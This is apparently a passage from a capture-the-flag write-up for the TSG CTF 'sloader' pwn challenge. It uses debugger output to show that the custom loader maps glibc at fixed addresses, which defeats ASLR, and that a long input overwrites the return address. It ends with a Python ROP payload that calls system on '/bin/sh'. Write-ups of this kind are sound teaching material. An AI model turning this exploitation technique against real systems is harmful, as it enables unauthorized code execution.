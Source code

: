 ```
0x00007fdccfd75000 0x00007fdccfd79000 0x0000000000004000 0x0000000000000000 rwx /home/ubuntu/tsgctf4/pwn/sloader/src/chall
0x00007fdccfd79000 0x00007fdccfd7d000 0x0000000000004000 0x0000000000000000 rwx /home/ubuntu/tsgctf4/pwn/sloader/src/chall
0x00007ffcf992e000 0x00007ffcf994f000 0x0000000000021000 0x0000000000000000 rw- [stack]  <-  $rsp
0x00007ffcf99d6000 0x00007ffcf99da000 0x0000000000004000 0x0000000000000000 r-- [vvar]
0x00007ffcf99da000 0x00007ffcf99dc000 0x0000000000002000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000001000 0x0000000000000000 --x [vsyscall]
```

Another interesting point for this linker is how the libc address is resolved.
Let's see what happens how `scanf` in `main` is resolved.
In the middle of scanf, the backtrace is like this

```
gef> bt
#0  0x00000000101f05c2 in read ()
#1  0x0000000010148121 in _IO_new_file_underflow ()
#2  0x000000001014b7a7 in _IO_default_uflow ()
#3  0x00000000101317c0 in __vfscanf_internal ()
#4  0x0000000010130d5f in __isoc99_scanf ()
```
so, `scanf` is located at the strange address `0x0000000010130d5f`. What is this? This is located in the mapped region with a fixed address.
In fact, all the functions in glibc seem to be mapped in the sloader's region.

https://github.com/akawashiro/sloader/blob/0744fde8deab2c3269c11e1075d13c5cc80a82e5/libc_mapping.cc#L281

```
0x0000000010001000 0x0000000010263000 0x0000000000262000 0x0000000000001000 r-x /home/ubuntu/tsgctf4/pwn/sloader/src/sloader  <-  $rcx, $rip
```

Which means, we don't have to leak any address to bypass ALSR.

Now the problem is how do I bypass the stack canary? If you try to input a large buffer (like "A" * 100) to it, you will notice that you can overwrite the return address!

```
0x7ffc3d465a08|+0x0000|000: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'[...]  <-  retaddr[1]  <-  $rsp
```
So now we can pwn this chall just by a simple ROP payload:
```
system_addr = 0x1012c960
binsh = 0x10270563
pop_rdi = 0x10009132
ret = pop_rdi + 1

padding = b"A" * 40

payload = [
    ret,
    pop_rdi,
    binsh,
    system_addr,
]

payload = padding + b''.join(map(p64, payload))

```
